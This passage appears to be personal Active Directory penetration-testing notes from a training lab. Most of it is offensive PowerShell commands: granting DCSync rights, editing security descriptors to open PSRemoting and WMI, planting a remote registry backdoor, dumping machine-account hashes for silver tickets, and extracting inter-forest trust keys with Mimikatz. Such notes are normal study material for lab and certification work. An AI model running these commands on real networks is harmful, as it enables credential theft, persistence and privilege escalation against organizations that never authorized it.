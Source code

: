 **Interactive Method**


Required permissions for DCSync:


**NonInteractive Method**

- `Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal 0xd4y -GUIDRight DCSync`

### Security Descriptors

- change namespace security descriptor to allow full access for a user you own
    - can edit to allow access to PSRemoting, WMI access, Remote registry, etc.
- good persistence method as many organizations do not monitor domain object ACLs

********************PSRemoting******************** 

- `Set-RemotePSRemoting -UserName 0xd4y -ComputerName follow-dc.0xd4y_notes.local`
    - may result in an `I/O` error, but the command still successfully ran
    - may result in crashing WINRM service on target machine
- allows you to have access to remote computer without needing administrative privileges
- PSRemoting uses WINRM (ports 5985 and 5986)

******WMI******

- after having WMI access, you can execute commands remotely using `Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList 'calc.exe' -ComputerName follow-0xd4y`

On local machine:

- `Set-RemoteWMI -Username 0xd4y`

On remote machine:

- `Set-RemoteWMI -Username 0xd4y -ComputerName follow-dc -namespace 'root\cimv2'`
    - add `-Credential` flag to specify credentials

******************************Remote Registry******************************

- `Add-RemoteRegBackdoor -ComputerName follow-dc -Trustee 0xd4y`
- `Get-RemoteMachineAccountHash -ComputerName follow-dc.0xd4y_notes.local`
- returns machine account hash
    - can create silver ticket
- you can also use `Get-RemoteLocalAccountHash` or `Get-RemoteCachedCredential`

# Forest Privilege Escalation

- whatever access the compromised domain admin has in the target forest, those will be the permissions you have in that forest
    - therefore, you could be a domain admin in one forest, but a normal domain user in a different forest
- use `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'` or `Invoke-Mimikatz -Command '"lsadump::trust /patch"'` to get the trust key for the inter-forest trust
    - inter-forest trust keys do not automatically rotate unlike intra-forest (domain) trust keys

## MSSQL
